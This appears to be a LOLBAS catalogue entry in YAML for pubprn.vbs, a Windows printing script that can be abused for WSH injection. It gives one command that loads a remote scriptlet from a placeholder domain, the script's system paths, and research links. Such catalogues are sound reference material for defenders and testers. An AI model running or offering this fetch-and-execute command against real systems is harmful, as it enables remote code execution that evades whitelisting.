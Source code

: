 ---
Name: Pubprn.vbs
Description: Execute
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: pubprn.vbs 127.0.0.1 script:https://domain.com/folder/file.sct
    Description: Set the 2nd variable with a Script COM moniker to perform Windows Script Host (WSH) Injection.
Full Path:
  - C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs
  - C:\Windows\SysWOW64\Printing_Admin_Scripts\en-US\pubprn.vbs
Code Sample:
  - https://github.com/api0cradle/LOLBAS/blob/master/OSScripts/Payload/Pubprn_calc.sct
Detection: []
Resources:
  - https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/
  - https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
  - https://github.com/enigma0x3/windows-operating-system-archaeology
Notes: Thanks to Matt Nelson - @enigma0x3
